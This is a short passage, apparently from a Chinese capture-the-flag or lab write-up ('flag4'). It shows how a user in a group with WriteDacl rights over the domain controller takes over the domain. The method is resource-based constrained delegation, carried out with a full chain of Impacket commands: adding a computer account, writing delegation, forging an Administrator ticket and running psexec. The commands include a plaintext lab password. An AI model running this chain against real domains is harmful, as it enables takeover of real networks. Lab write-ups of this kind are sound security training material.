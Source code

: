 # flag4

可以发现，chenglei这个用户是ACL ADMIN组内的用户，并且ACL ADMIN组对域控有writeDacl权限，那么就可以去写一些内容，比如说dcsync，rbcb的属性来通过rbcd拿下域控，直接写rbcd吧

```
python3 addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'

python3 rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'

python3 getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6

export KRB5CCNAME=Administrator.ccache

python3 psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6
```

![QQ_1732797151468](images/18.png)

![QQ_1732797265016](images/19.png)
